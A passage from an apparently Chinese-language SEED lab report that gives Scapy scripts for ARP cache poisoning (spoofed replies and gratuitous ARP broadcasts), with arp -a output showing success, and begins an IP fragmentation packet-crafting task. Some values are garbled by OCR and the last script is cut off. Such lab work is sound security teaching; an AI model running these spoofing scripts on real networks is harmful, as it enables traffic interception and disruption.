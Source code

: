 不停地向虚拟机1地址发送ARP响应报文，将源地址设置为10.19.108.1，MAC地址为50:98:b8:4a:47:0c，几秒后在虚拟机1上查看：

``` Shell
[09/09/20]seed@VM:~$ arp -a
? (10.19.108.1) at 50:98:b8:4a:47:0c [ether] on enp0s3
? (10.19.109.154) at <incomplete> on enp0s3
? (10.19.108.220) at ac:07:5f:e0:b3:80 [ether] on enp0s3
? (10.19.108.2) at <incomplete> on enp0s3
? (10.19.109.155) at 08:00:27:b8:a6:4c [ether] on enp0s3
```

成功污染。

### Task1C  ARP gratuitous message

``` python
from scapy.all import *
import time

E=Ether( )
E.dst="ff:ff:ff:ff:ff:ff"
A=ARP( )
A.hwsrc="08:00:27 :b8:a6:4c"
A.hwdst="ff:ff:ff:ff:ff:ff"
A.pdst="10.19.108. "
A.psrc="10.19.108.1"
pkt=E/A
for i in range (6000) :
    sendp(pkt)
    time.sleep(0.1)
```

不停地广播ARP gratuitous报文，将源宿地址都设为要污染的IP地址，宿MAC地址设置为ff-ff-ff-ff-ff-ff，源MAC地址设为虚拟机2的的MAC的地址。几秒后成功污染：

``` shell
[ 09/09/20] seed@VM:~$ arp -a
? (10.19.108.1) at 08:00:27:b8:a6:4c [ether] on enp0s3
```

## IP Fragment

### Task1A  Conducting IP Fragment

``` python
from scapy.all import *

ip=IP(src="10.19.108.164" ,dst="10.19.109.155")
ip.id=1000
ip.frag=0
ip.flags=1

udp=UDP(sport=7070, dport=9090 )
udp.len=104

payload= 'A' * 32

pkt=ip/udp/payload
pkt[UDP].checksum=0
send(pkt, verbose=0)

ip.frag=5
pkt=ip/ payload
send(pkt, verbose=0)

ip.frag=9
ip.flags=0
```